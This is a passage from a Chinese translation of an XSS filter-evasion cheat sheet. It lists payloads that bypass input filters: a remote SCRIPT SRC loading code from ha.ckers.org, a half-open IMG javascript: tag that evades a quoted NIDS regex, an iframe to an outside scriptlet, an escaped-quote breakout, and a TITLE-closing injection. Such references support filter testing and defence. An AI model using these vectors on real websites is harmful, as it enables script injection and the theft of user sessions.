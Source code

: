## script 标签中的协议解析

这个特殊的变体由 Łukasz Pilorz 提出，并且基于上文中 Ozh 提出的协议解析绕过。这个 xss 例子工作在 IE, 使用 IE 渲染引擎的 Netscape 以及加了在结尾的 Opera。这是非常有用的在输入长度受到限制。域名越短越好。 ".j"是有效的，不需要考虑编码问题因为浏览拿起可以自动识别在一个 script 标签中。

```
<SCRIPT SRC=//ha.ckers.org/.j> 
```

* * *

## 半开的 HTML/JavaScript xss 向量

不同于 Firefox ，ie 渲染引擎不会加入额外的数据到你的页面。但是它允许 javascript 指定在图片标签中这是有用的作为一个 xss 向量，因为它不需要一个结束的尖括号。你可以插入这个 xss 向量在任何 html 标签后面。甚至没有用">"关闭标签。 A note: this does mess up the HTML, depending on what HTML is beneath it. It gets around the following NIDS regex: /((\%3D)|(=))[^\n]*((\%3C)|<)[^\n]+((\%3E)|>)/ because it doesn't require the end ">". 这也是有效的去对付真实的 xss 过滤器，我曾经碰见过试用半开的<IFRAME 标签替代 <IMG 标签，

```
<IMG SRC="javascript:alert('XSS')" 
```

* * *

## 双开尖括号

使用一个开始尖括号(<)在向量结尾代替一个关闭尖括号（>）会有不同的影响在 Netscape Gecko 的渲染中。 Without it, Firefox will work but Netscape won't。

```
<iframe src=http://ha.ckers.org/scriptlet.html < 
```

* * *

## 转义 javascript 中的转义

当一个应用程序是输出用户自定义的信息到 javascript 代码中，例如： <SCRIPT>var a="$ENV{QUERY_STRING}";</SCRIPT>。如果你想插入你自己的 javascript 代码进入它，但是服务器转义了其中的某些引号，这时你需要通过转义被转义的字符来绕过它。从而使最终的输入代码类似于<SCRIPT>var a="\";alert('XSS');//";</SCRIPT> 。最终\转义了双引号前被服务器添加的\，而双引号则不会被转义，从而触发 xss 向量。xss 定位器使用这个方法。

```
\";alert('XSS');// 
```

* * *

## 闭合 title 标签

这是一个简单的 xss 向量，可以引入一个恶意的 xss 攻击。
*译者注：titile 标签内部不支持 html 代码，所有内容会被自动转义为普通字符。*

```
</TITLE><SCRIPT>alert("XSS");</SCRIPT> 
```

* * *

## INPUT image
